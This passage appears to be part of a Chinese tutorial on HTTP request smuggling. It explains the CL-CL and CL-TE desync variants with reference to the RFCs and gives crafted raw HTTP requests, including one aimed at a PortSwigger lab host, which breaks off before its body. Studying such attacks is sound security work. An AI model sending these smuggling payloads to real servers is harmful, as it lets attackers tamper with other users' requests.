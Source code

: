 ### 2.CL CL

在`RFC7230`的第`3.3.3`节中的第四条中，规定当服务器收到的请求中包含两个`Content-Length`，而且两者的值不同时，需要返回400错误。

<https://tools.ietf.org/html/rfc7230#section-3.3.3>

但是很明显这并非是强制的，如果服务器不遵守安全规定在服务器收到多个CL不相同的请求时不返回400错误，那么就可能会导致请求走私。

我们假设前端服务器按照第一个CL处理而后端服务器按照第二个CL，构造出如下HTTP包：

```php
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

前端代理服务器收到的请求通过第一个CL判断body为8字节，随后将包发送给后端源服务器；源服务器收到请求通过第二个CL判断body为7字节，这时候最后一个字节 `b'a'`就会被遗留在源服务器缓存器。由于前后端服务器一般是宠用TCP连接，假设此时正常用户向服务器发送了正常的数据包，如下：

```php
GET / HTTP/1.1\r\n
Host: example.com\r\n
```

这时残留在缓存中的一个字节就会被添加到这个正常的请求前端变成：

```php
aGET / HTTP/1.1\r\n
Host: example.com\r\n
```

导致了请求走私，正常数据包被篡改。

但很明显这种情况过于“巧合”应该很难遇见，存在两个CL的包一般服务器都不会接受，在`RFC2616`的第4.4节中，规定:`如果收到同时存在Content-Length和Transfer-Encoding这两个请求头的请求包时，在处理的时候必须忽略Content-Length`，这就意味着我们可以在头部同时包含这两种请求头，相比这下这种方式更现实一些。

### 3.CL TE

所谓CL TE就是前置服务器认为 `Content-Length` 优先级更高（或者说根本就不支持 `Transfer-Encoding` ） ，后端服务器认为 `Transfer-Encoding` 优先级更高。

我们可以构造出body中带有字节 `0`的请求包，前端服务器通过CL判断这是一个正常的数据包并转发给后端，后端服务器使用TE就会把字节`0`后的数据滞留到缓冲区，并且与下一次的正常请求进行拼接，这里用一下portswigger团队的lab作为实验：<https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te>

构造如下请求包:

```php
POST / HTTP/1.1\r\n
Host: ac721f8e1fcb0119c0b98800005c0061.web-security-academy.net\r\n
Cookie: session=ehzpRrrgyPHDRJtSnaWLcZ0fstSXLWiC\r\n
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"\r\n
Sec-Ch-Ua-Mobile: ?0\r\n
Sec-Ch-Ua-Platform: "Windows"\r\n
Upgrade-Insecure-Requests: 1\r\n
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n
Sec-Fetch-Site: none\r\n
Sec-Fetch-Mode: navigate\r\n
Sec-Fetch-User: ?1\r\n
Sec-Fetch-Dest: document\r\n
Accept-Encoding: gzip, deflate\r\n
Accept-Language: zh-CN,zh;q=0.9\r\n
Connection: close\r\n
Content-Length: 10\r\n
Transfer-Encoding:chunked\r\n
```